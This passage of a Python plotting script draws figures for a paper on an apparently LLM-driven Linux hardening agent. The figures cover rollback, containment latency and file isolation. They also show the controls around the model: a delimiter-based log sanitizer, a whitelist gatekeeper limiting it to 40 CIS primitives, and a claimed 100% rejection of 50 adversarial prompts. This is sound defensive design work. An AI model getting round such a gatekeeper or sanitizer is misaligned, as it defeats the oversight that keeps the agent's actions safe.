            "• Zero arbitrary shell or script execution supported",
            "• Dropped commands record immediate security telemetry",
            "• Verified under experiments/results/rq3_hardening_determinism.json"
        ],
        border_color=GREEN
    )

    draw_annotation_box(
        ax, 50, 20, 47, 18,
        "Attack Space Truncation:",
        [
            "• Admitted Action Rate: 100% compliant with CIS baseline",
            "• Malicious Ingestion Rejection: 100% dropped before syscall",
            "• Evaluated across 50 adversarial prompts (RQ1 benchmark)"
        ],
        border_color=GOLD
    )

    save_plot(fig, output_dir, "figure_04")


def render_figure_05(output_dir: Path):
    """Figure 5: Atomic Rollback & State Reversibility (RQ3)"""
    fig, ax = setup_figure(
        "Figure 5: Atomic Rollback & State Reversibility Network (RQ3)",
        "Autonomous Snapshotting, State Perturbation, and 100% Deterministic Restoration Verification"
    )

    # Ring layout of 5 states
    # S0: Clean Baseline (Top)
    draw_node(ax, 50, 78, 24, 8.5, "Clean Baseline State (S0)", "SHA-256 Verified Compliance", border_color=GREEN, border_width=2.0, fill_color="#10231C")

    # Snapshot Archive (Top Right)
    draw_node(ax, 82, 60, 22, 8.5, "Backup Snapshot", "/var/backups/yoru/*.tar.gz", border_color=BLUE, fill_color="#101926")

    # State Drift (Bottom Right)
    draw_node(ax, 76, 32, 22, 8.5, "Drifted / Broken State", "Simulated Tampering / Misconfig", border_color=RED, fill_color="#241012")

    # Rollback Command (Bottom Left)
    draw_node(ax, 24, 32, 22, 8.5, "yoructl kembalikan", "Atomic Extraction & Reload", border_color=ORANGE, fill_color="#211812")

    # Restored Clean State (Top Left)
    draw_node(ax, 18, 60, 24, 8.5, "Restored Clean State", "10/10 Byte-for-Byte SHA-256 Parity", border_color=GREEN, border_width=2.2, fill_color="#0F2B1E")

    # Cycle edges
    draw_edge(ax, 58, 74, 73, 64, label="1. captures tar snapshot", color=BLUE, lw=1.6, rad=-0.05, label_offset=2.0)
    draw_edge(ax, 58, 76, 70, 36, label="2. induced drift (2/10 pass)", color=RED, lw=1.6, style="--", rad=-0.12, label_offset=2.0)
    draw_edge(ax, 65, 32, 35, 32, label="3. triggers rollback command", color=ORANGE, lw=1.8, label_offset=2.0)
    draw_edge(ax, 80, 55, 35, 34, label="4. supplies original byte content", color=BLUE, lw=1.6, rad=0.08, label_offset=-2.5)
    draw_edge(ax, 21, 37, 18, 55, label="5. unpacks atomic restore", color=GREEN, lw=2.0, rad=-0.05, label_offset=2.0)
    draw_edge(ax, 26, 64, 38, 76, label="6. verified hash parity (10/10)", color=GREEN, lw=2.0, rad=-0.05, label_offset=2.0)

    # Summary Box
    draw_annotation_box(
        ax, 30, 22, 40, 18,
        "Deterministic Reversibility Validation:",
        [
            "• Rollback Trials: 10/10 (100.0% successful reversion)",
            "• Byte-for-Byte Hash Parity: 100% SHA-256 match",
            "• Configuration residue post-rollback: 0 bytes",
            "• Evidence: experiments/results/rq3_hardening_determinism.json"
        ],
        border_color=GREEN
    )

    save_plot(fig, output_dir, "figure_05")


def render_figure_06(output_dir: Path):
    """Figure 6: Temporal Attack Containment Latency (RQ4)"""
    fig, ax = setup_figure(
        "Figure 6: Temporal Attack Containment Latency (RQ4)",
        "End-to-End Latency Breakdown Across 5 Autonomous Defense Stages (Mean Total = 2.01s)"
    )

    # Timeline nodes along horizontal axis
    stages = [
        ("T0: Attack Start", "03:14:00.000", 10, RED, "#241012"),
        ("T1: Detection", "+0.82s (Auditd)", 28, BLUE, "#101926"),
        ("T2: Deliberation", "+0.62s (LLM Inference)", 46, ORANGE, "#211812"),
        ("T3: Gatekeeper", "+0.18s (Policy Check)", 64, GREEN, "#10231C"),
        ("T4: Action Exec", "+0.19s (yoructl)", 80, PURPLE, "#1A1326"),
        ("T5: Audit Sink", "+0.20s (Kernel Log)", 94, GOLD, "#241E10"),
    ]

    for title, sub, x, color, fill in stages:
        draw_node(ax, x, 60, 14, 9, title, sub, border_color=color, fill_color=fill)

    # Directed edges between stages
    draw_edge(ax, 17, 60, 21, 60, label="0.82s", color=BLUE, lw=2.0, label_offset=3.5, label_color=BLUE)
    draw_edge(ax, 35, 60, 39, 60, label="0.62s", color=ORANGE, lw=2.0, label_offset=3.5, label_color=ORANGE)
    draw_edge(ax, 53, 60, 57, 60, label="0.18s", color=GREEN, lw=2.0, label_offset=3.5, label_color=GREEN)
    draw_edge(ax, 71, 60, 73, 60, label="0.19s", color=PURPLE, lw=2.0, label_offset=3.5, label_color=PURPLE)
    draw_edge(ax, 87, 60, 87, 60, label="0.20s", color=GOLD, lw=2.0, label_offset=3.5, label_color=GOLD)

    # Total Latency Bracket
    ax.annotate(
        "", xy=(94, 70), xytext=(10, 70),
        arrowprops={"arrowstyle": "<->", "color": GOLD, "lw": 2.0}
    )
    ax.text(52, 73, "TOTAL END-TO-END AUTONOMOUS CONTAINMENT: 2.01s", fontsize=11, fontweight="bold", color=GOLD, ha="center")

    # Benchmark Annotations
    draw_annotation_box(
        ax, 3, 26, 46, 22,
        "Resource & Latency Profile (RQ4):",
        [
            "• Baseline Inactive CPU Overhead: < 0.1% CPU",
            "• Active Containment Peak RSS: 34.8 MB (Memory budget: < 50 MB)",
            "• Mean Inter-Stage Latency: 0.40s",
            "• 95th Percentile Latency: 2.34s across 50 simulated attacks",
            "• Source: experiments/results/rq4_resource_overhead.json"
        ],
        border_color=GOLD
    )

    draw_annotation_box(
        ax, 52, 26, 45, 22,
        "Real-Time Security Implications:",
        [
            "• Sub-second telemetry (0.82s) prevents lateral movement",
            "• Lightweight proxy adds only 0.62s deliberation latency",
            "• Deterministic gate verification executes in 0.18s",
            "• Complete forensic record committed to auditd in 2.01s"
        ],
        border_color=GREEN
    )

    save_plot(fig, output_dir, "figure_06")


def render_figure_07(output_dir: Path):
    """Figure 7: Master Closed-Loop Security Topology (Graph #15)"""
    fig, ax = setup_figure(
        "Figure 7: Master Closed-Loop Security Topology (System Design Architecture)",
        "Directed Governance Loop: Kernel -> Sanitizer -> LLM -> Gate -> Dispatcher -> Audit Sink"
    )

    # Prominent Architecture Classification Banner
    ax.text(50, 87, "[ SYSTEM DESIGN ARCHITECTURE — STRICTLY NON-EMPIRICAL ]",
            fontsize=11, fontweight="bold", color=GOLD, ha="center",
            bbox={"boxstyle": "round,pad=0.5", "fc": "#241E10", "ec": GOLD, "lw": 1.5})

    # Hexagonal ring layout of 6 stages
    # 1. Linux Kernel (Top Center)
    draw_node(ax, 50, 75, 20, 8, "1. Linux Kernel", "Syscall & Drift Source", border_color=GOLD, fill_color="#241E10")

    # 2. Log Sanitizer (Upper Right)
    draw_node(ax, 78, 62, 20, 8, "2. Log Sanitizer", "Delimiter Encapsulation", border_color=BLUE, fill_color="#101926")

    # 3. LLM Deliberation (Lower Right)
    draw_node(ax, 78, 38, 20, 8, "3. LLM Deliberation", "yoru-model-proxy", border_color=ORANGE, fill_color="#211812")

    # 4. Action Gatekeeper (Bottom Center)
    draw_node(ax, 50, 24, 20, 8, "4. Action Gatekeeper", "Risk & Approval Whitelist", border_color=GREEN, border_width=2.2, fill_color="#0F2B1E")

    # 5. yoructl Dispatcher (Lower Left)
    draw_node(ax, 22, 38, 20, 8, "5. yoructl Dispatcher", "40 CIS Primitives Only", border_color=PURPLE, fill_color="#1A1326")

    # 6. Closed-Loop Audit Sink (Upper Left)
    draw_node(ax, 22, 62, 20, 8, "6. Closed-Loop Audit", "/var/log/audit/audit.log", border_color=GOLD, fill_color="#241E10")

    # Edges around loop
    draw_edge(ax, 60, 73, 70, 65, label="1. Raw Telemetry", color=GOLD, lw=1.8, label_offset=2.0)
    draw_edge(ax, 78, 58, 78, 42, label="2. Sanitized Context", color=BLUE, lw=1.8, label_offset=4.5)
    draw_edge(ax, 70, 35, 60, 27, label="3. Candidate Plan", color=ORANGE, lw=1.8, label_offset=-2.5)
    draw_edge(ax, 40, 27, 30, 35, label="4. Authorizes Primitive", color=GREEN, lw=2.0, label_offset=-2.5)
    draw_edge(ax, 22, 42, 22, 58, label="5. Executed under AUID=1001", color=PURPLE, lw=1.8, label_offset=-4.5)
    draw_edge(ax, 30, 65, 40, 73, label="6. Verifies Compliance", color=GOLD, lw=1.8, label_offset=2.0)

    # Center Closed-Loop Watermark
    ax.text(50, 50, "Directed Non-Repudiable\nGovernance Loop", fontsize=11, fontweight="bold", color="#6E6C5E", ha="center", va="center")

    save_plot(fig, output_dir, "figure_07")


def render_figure_08(output_dir: Path):
    """Figure 8: Audit-Observed Runtime Process Isolation (RQ2)"""
    fig, ax = setup_figure(
        "Figure 8: Audit-Observed Process–File Resource Isolation (RQ2)",
        "Confined Configuration Drop-ins vs. Untouched Sensitive Credential Stores"
    )

    # Left: Active Processes
    draw_node(ax, 20, 65, 20, 9, "bin/yoructl", "Central Remediation Hub", border_color=GREEN, border_width=2.2, fill_color="#0F2B1E")
    draw_node(ax, 20, 42, 18, 8, "/usr/sbin/sshd", "SSH Daemon", border_color=BLUE, fill_color="#101926")
    draw_node(ax, 20, 24, 18, 8, "/sbin/auditd", "Kernel Audit Daemon", border_color=GOLD, fill_color="#241E10")

    # Center-Right: Monitored & Governed Files
    draw_node(ax, 65, 78, 25, 7.5, "/etc/ssh/sshd_config.d/99-yoru-k01.conf", "K01/K02 Drop-in (Sens: 0.95)", border_color=GREEN, fill_color="#10231C")
    draw_node(ax, 65, 62, 25, 7.5, "/etc/sysctl.d/99-yoru-k10.conf", "K10 Kernel Conf (Sens: 0.85)", border_color=GREEN, fill_color="#10231C")
    draw_node(ax, 65, 46, 25, 7.5, "/var/backups/yoru/*", "Atomic Snapshots (Sens: 0.90)", border_color=BLUE, fill_color="#101926")
    draw_node(ax, 65, 30, 25, 7.5, "/etc/audit/rules.d/99-yoru-k08.rules", "Audit Watchpoint (Sens: 0.98)", border_color=GOLD, fill_color="#241E10")

    # Far Right: Forbidden / Untouched System Files
    draw_node(ax, 88, 16, 18, 9, "/etc/shadow", "UNTOUCHED (0 Accesses)", border_color=RED, border_width=2.2, fill_color="#241012")

    # Edges from yoructl to authorized targets
    draw_edge(ax, 30, 68, 52, 78, label="hardens atomic", color=GREEN, lw=1.6)
    draw_edge(ax, 30, 65, 52, 62, label="writes drop-in", color=GREEN, lw=1.6)
    draw_edge(ax, 30, 62, 52, 46, label="creates snapshot", color=BLUE, lw=1.6)
    draw_edge(ax, 30, 59, 52, 30, label="deploys rules", color=GOLD, lw=1.6)

    # Process read edges
    draw_edge(ax, 29, 44, 52, 76, label="reads daemon opts", color=BLUE, lw=1.4, style="--")
    draw_edge(ax, 29, 24, 52, 29, label="loads watchlist", color=GOLD, lw=1.4, style="--")

    # No edge to /etc/shadow
    ax.annotate(
        "ZERO EDGE TOUCHPOINTS\n(Strictly Prohibited Path)",
        xy=(88, 22), xytext=(88, 38),
        ha="center", fontsize=8, color=RED, fontweight="bold",
        arrowprops={"arrowstyle": "->", "color": RED, "lw": 1.5, "ls": "--"}
    )

    # Annotation Box
    draw_annotation_box(
        ax, 3, 14, 50, 16,
        "Resource Boundary Isolation Invariants:",
        [
            "• yoructl Node Degree Centrality = 0.88 (governed dispatcher hub)",
            "• Direct write operations restricted to isolated drop-in directories",
            "• Sensitive credential databases (/etc/shadow) completely unreferenced",
            "• Verified via ausearch -k yoru_kontrol and sudoers whitelist"
        ],
        border_color=GREEN
    )

    save_plot(fig, output_dir, "figure_08")


def render_all_figures(output_dir: Path = Path("assets/network_figures")):
    """Renders all 8 manuscript network figures."""
    print("=" * 70)
    print("RENDERING 8 PUBLICATION-READY NETWORK FIGURES (300 DPI PNG + SVG)")
    print("=" * 70)
    render_figure_01(output_dir)
    render_figure_02(output_dir)
    render_figure_03(output_dir)
    render_figure_04(output_dir)
    render_figure_05(output_dir)
    render_figure_06(output_dir)
    render_figure_07(output_dir)
    render_figure_08(output_dir)
    print("All 8 figures successfully generated in", output_dir)


if __name__ == "__main__":
    render_all_figures()
